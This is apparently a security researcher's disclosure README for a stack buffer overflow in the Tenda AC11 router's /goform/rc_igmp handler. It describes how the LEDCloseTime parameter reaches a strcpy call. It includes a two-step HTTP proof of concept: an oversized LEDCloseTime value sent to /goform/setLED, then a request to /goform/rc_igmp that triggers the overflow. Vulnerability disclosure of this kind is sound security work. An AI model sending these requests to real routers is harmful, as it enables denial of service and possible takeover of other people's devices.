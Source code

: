 # Tenda Router AC11 Vulnerability

This vulnerability lies in the `/goform/rc_igmp` page which influences the lastest version of Tenda Router AC11. (FYI, lastest version of this product is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html))

## Vulnerability description

There is a stack buffer overflow vulnerability in function `sub_800227AC` (page `/goform/rc_igmp`).

This function uses `strcpy` to copy the string pointed by `v3` into a stack buffer pointed by `v5`. `v3` is directly retrived from the nvram variable `led_time` without any security check.

![1](1.PNG)

the `led_time` variable can be controlled by attacker by calling the function `sub_800D50A4`(page `/goform/setLED`) which gets in a parameter called `LEDCloseTime` into varialbe `v10`, which can then be used to assign to the `led_time` variable.If `v10` is different from the original value of nvram variable `led_time`(variable `v13` and `v14`),then the nvram variable `led_time` will be set as `v10`

![2](2.PNG)

So by first setting the `LEDCloseTime` and then requesting the page `/goform/rc_igmp`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## POC

```plain
POST /goform/setLED HTTP/1.1
Host: 192.168.0.1
Content-Length: 1043
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&LEDCloseTIme=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```

```plain
POST /goform/rc_igmp HTTP/1.1
Host: 192.168.0.1
Content-Length: 103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

## Acknowledgment

Credit to [@Yu3H0](https://github.com/Yu3H0), [@leonW7](https://github.com/leonW7), and [@Lnkvct](https://github.com/Lnkvct) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.
